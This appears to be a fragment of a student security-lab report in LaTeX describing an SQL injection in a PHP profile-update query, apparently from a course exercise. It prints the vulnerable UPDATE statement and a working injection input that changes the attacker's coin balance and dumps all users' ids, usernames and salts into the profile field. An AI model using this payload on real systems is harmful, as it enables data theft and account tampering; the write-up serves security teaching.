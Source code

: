 \documentclass[11pt,a4paper]{article}
\newcommand{\code}[1]{{\tt #1}}
\newcommand{\file}[1]{{\tt #1}}
\begin{document}
\subsection{Acquiring private user data}
\label{sec:white|sub:acquire}
In the file \file{index.php} on lines 20--21 an SQL query is constructed from
the text field data supplied by the \code{profileform} on lines 14--29. The
PHP preparations for the SQL statement looks as follows.

\begin{multicols}{2}
\begin{figure}[H]
    \begin{lstlisting}
UPDATE Person
SET Profile = '$profile'
WHERE ProfileId = $user->id
    \end{lstlisting}
    \caption{Profile update SQL statement}
\end{figure}

\columnbreak

Since MySQL allows for updating multiple values we can append any number of
columns and give them values to our liking. All we have to ensure is that we
terminate the opened quote. The statement below is given as input.
\end{multicols}

\begin{figure}[H]
    \begin{lstlisting}[language=SQL]
', Person.DikuCoins = 100, Person.Profile =
(
    SELECT GROUP_CONCAT( CONCAT(Tmp.PersonId, '\t', Tmp.Username, '\t', Tmp.Salt, '\t', Tmp.DikuCoins) SEPARATOR '\n')
    FROM (SELECT * FROM Person) AS Tmp
),
Username='<your-username>
    \end{lstlisting}
    \caption{Profile update input}
\end{figure}

\end{document}
